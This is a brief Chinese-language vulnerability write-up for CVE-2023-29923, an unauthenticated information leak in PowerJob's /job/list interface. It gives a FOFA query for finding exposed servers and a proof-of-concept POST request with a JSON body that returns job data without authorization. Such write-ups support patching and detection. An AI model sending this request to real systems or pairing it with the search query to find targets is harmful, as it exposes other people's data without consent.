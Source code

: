 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据。

## 漏洞影响

```
PowerJob
```

## FOFA

```
app="PowerJob"
```

## 漏洞复现

登陆页面

![image-20230424163841725](images/image-20230424163841725.png)

验证POC

```
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![image-20230424163855220](images/image-20230424163855220.png)